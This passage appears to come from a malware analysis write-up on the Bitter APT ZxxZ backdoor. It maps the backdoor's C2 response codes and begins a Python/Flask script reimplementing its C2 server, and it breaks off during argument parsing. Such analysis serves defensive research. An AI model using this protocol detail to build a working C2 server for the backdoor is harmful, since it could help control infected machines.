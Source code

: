 It will then sleep for `15` seconds and repeat the loop.

Interestingly, while they `obfuscated` (very poorly) the payload in the network traffic by prepending it with garbage data. They do not follow suit in storing their payloads in any obfuscated way on disk. Which means, they will have to be very careful not to be detected.

##### C2 Responses

At this point we can map out the following C2 responses and their meaning.

| C2 Response | Description                     |
| ----------- | ------------------------------- |
| RNG         | Payload is already running      |
| DN-S        | Payload is executing            |
| S           | Executed payload is running     |
| RN_E        | Executed payload is not running |

##### C2 Server Code

Now that we know everything there is to know about how Bitter APT's ZxxZ backdoor communicates with its C2 server. We can implement our own C2 server to manipulate it to execute our own payloads.

For this we will use [Python](https://www.python.org/) and [Flask](https://flask.palletsprojects.com/en/2.1.x/).

```python
#!/usr/bin/env python

import sys
import os
import logging
import argparse
from flask import Flask
from flask import request

__version__ = '1.0.0'
__author__  = 'c3rb3ru5d3d53c'

parser = argparse.ArgumentParser(
    prog=f'zxxz v{__version__}',
    description='Bitter APT ZxxZ Backdoor C2 Server',
    epilog=f'Author: {__author__}')

parser.add_argument(
    '--version',
    action='version',
    version=f'v{__version__}')

parser.add_argument(
    '-i',
    '--input',
    type=str,
    default=None,
    help='Input Payload',
    required=False)

parser.add_argument(
    '--host',
    type=str,
    default='0.0.0.0',
    required=False,
    help='Listen Host')

parser.add_argument(
```